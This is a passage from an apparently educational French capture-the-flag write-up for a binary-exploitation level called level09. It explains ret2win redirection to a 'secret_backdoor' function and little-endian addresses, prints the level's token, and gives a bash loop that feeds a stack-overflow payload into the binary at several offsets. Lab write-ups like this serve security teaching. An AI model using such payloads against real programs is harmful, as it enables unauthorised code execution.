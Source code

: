 **Ret2win** (Return-to-win) est une technique où on redirige l'exécution vers une fonction "gagnante" qui donne accès au système (ici `secret_backdoor`).

### 4. Little-endian

Sur les architectures x86/x64, les adresses sont stockées en **little-endian** : l'octet le moins significatif en premier.

**Exemple :**
```
Adresse : 0x55555555488c
En mémoire : \x8c\x48\x55\x55\x55\x55\x00\x00
```

---

## Token level09

```
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

---

## Notes supplémentaires

### Pourquoi offset 200 ?

L'offset exact dépend de plusieurs facteurs :
- Alignement de la stack (généralement 16 octets)
- Présence d'un stack canary (8 octets)
- Architecture (32 vs 64 bits)

Pour trouver l'offset exact, on peut tester différentes valeurs :
```bash
# Test avec offset 184, 192, 200, 208
for offset in 184 192 200 208; do
    echo "Test offset $offset:"
    (python -c "print('A'*40 + '\xf4\x01\x00\x00')"; \
     python -c "print('B'*$offset + '\x8c\x48\x55\x55\x55\x55\x00\x00')"; \
     echo "whoami") | ./level09
done
```

### Protection PIE (Position Independent Executable)

Si le binaire a PIE activé, l'adresse de `secret_backdoor` change à chaque exécution. Dans ce cas :
1. Il faudrait d'abord leak une adresse
2. Calculer l'offset vers `secret_backdoor`
3. Construire le payload avec l'adresse calculée

Heureusement, ce niveau n'a pas PIE activé ! 🎉


